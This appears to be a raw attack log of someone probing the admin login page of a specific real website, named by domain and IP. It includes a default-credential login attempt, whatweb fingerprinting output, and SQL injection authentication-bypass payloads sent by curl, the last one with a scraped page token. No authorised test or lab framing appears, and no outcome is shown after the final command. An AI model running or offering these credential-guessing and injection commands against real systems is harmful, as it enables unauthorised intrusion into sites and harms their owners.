 site:
http://www.cnlsjd.cn/

found : admin Panel 
curl -X POST -b cookies.txt -d "username=admin&password=admin&pagetoken=d75942fcbca200934cc6600e5dacbd9f" http://103.117.123.230/admin/login.php


./whatweb -a 3 http://cnlsjd.cn/admin/login.php
http://cnlsjd.cn/admin/login.php [200 OK] Cookies[PHPSESSID], HTML5, HTTPServer[openresty/1.25.3.1], HttpOnly[PHPSESSID], IP[103.117.123.230], JQuery, OpenResty[1.25.3.1], PHP, PasswordField[password], Script[text/javascript], Title[首页后台登录], X-UA-Compatible[IE=edge]


curl -X POST -d "username=test' OR '1'='1&password=dummy" http://cnlsjd.cn/admin/login.php

{"ret_code":0,"ret_msg":"token\u4e3a\u7a7a"}%


so I proceed with the 
curl -s http://cnlsjd.cn/admin/login.php | grep "token"

    var pagetoken = "d75942fcbca200934cc6600e5dacbd9f";
        pagetoken: pagetoken


curl -X POST  -d "username=admin' OR '1'='1&password=dummy&pagetoken=d75942fcbca200934cc6600e5dacbd9f" http://cnlsjd.cn/admin/login.php
